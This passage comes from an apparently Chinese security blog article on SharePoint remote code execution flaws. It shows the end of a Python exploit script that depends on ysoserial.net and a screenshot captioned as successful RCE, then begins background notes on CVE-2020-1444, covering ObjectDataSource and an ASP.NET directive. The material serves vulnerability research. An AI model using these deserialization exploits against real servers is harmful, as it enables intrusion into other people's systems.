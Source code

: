 if __name__ == '__main__':
    if "microsoft" not in uname()[2].lower():
        print("(-) WARNING - this was tested on wsl, so it may not work on other platforms")
    if not os.path.exists('yss/ysoserial.exe'):
        print("(-) missing ysoserial.net!")
        sys.exit(-1)
    main()
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LUDjiaNGZoGrh0uOeCG5QPHkYH4lCSSjCaHmzibibGuvoV99gxvUNyatBuQ/640?wx_fmt=png)

成功 RCE

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LUCK7XPVO92YLsiak0paM7AUianiaESPrbh1kINUXfPwfr3ebhbEqToRy1w/640?wx_fmt=png)

**CVE-2019-0604**

推荐之前的文章 [CVE-2019-0604 分析及武器化](http://mp.weixin.qq.com/s?__biz=MzU0MjUxNjgyOQ==&mid=2247487333&idx=1&sn=1d106c99c8e9b451a1d72500517cde1b&chksm=fb183c57cc6fb541fef04e53c83d6c74f3d8b2c3fa398e075e3baecbd770068ad03374a93cea&scene=21#wechat_redirect)

**CVE-2020-1444**

测试环境：

*   Server2016
    
*   SP2016
    
*   dnSpy
    

背景知识

ObjectDataSource

通过 ObjectDataSource 定义知道在 asp.net 中 ObjectDataSource 可以调用任意运行时方法，类似 ObjectDataProvider

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LU74YCDrPS9KBvdg70sDO2e8fkZg9bT9ZbqcOK8YYEKYuBtbT7bwtFNA/640?wx_fmt=png)

Asp.Net 的内联表达式

<%-- ... -- %> 表示注释

<%@ ... %> 表示指令

刚刚的代码如下：

```
<%@ Register TagPrefix="asp3" Namespace="System.Web.UI.WebControls" Assembly="System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" %>
